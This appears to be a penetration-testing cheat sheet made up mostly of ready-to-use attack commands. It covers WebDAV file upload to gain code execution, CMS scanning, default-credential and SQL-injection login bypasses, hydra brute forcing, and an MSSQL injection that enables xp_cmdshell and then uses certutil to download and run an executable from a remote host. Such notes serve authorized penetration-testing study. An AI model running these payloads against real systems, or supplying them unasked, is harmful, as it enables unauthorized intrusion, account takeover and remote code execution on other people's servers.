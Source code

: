RCE https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav

```jsx
cadaver 192.168.1.1 //require username:password
>mput rv.aspx .

URL/rv.aspx
```

### CMS

identify service

```jsx
whatweb http://192.168.1.1:81
searchsploit framework/webpage **title**/system name
```

Wordpress

```jsx
wpscan --url 192.168.1.1 -e p --plugins-detection aggressive
```

### **Login Panel**

Password

```jsx
//weak password
admin:admin
administrator:administrator

//password bypass - Mysql
admin' OR 1=1--
'OR '' = '	Allows authentication without a valid username.
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/sqli.auth.bypass.txt

//default credentials
cd /usr/share/seclists
grep -r  "Sonatype Nexus"

hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.1.1 ftp

Invalid password means username is right
```

MSSQL injection to RCE

```jsx
//impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
' EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
' EXEC xp_cmdshell 'certutil -urlcache -split -f <http://192.168.1.1:8888/supershell/compile/download/test_1.exe> C:\\Windows\\Temp\\test_1.exe & C:\\Windows\\Temp\\test_1.exe'; -- -
```
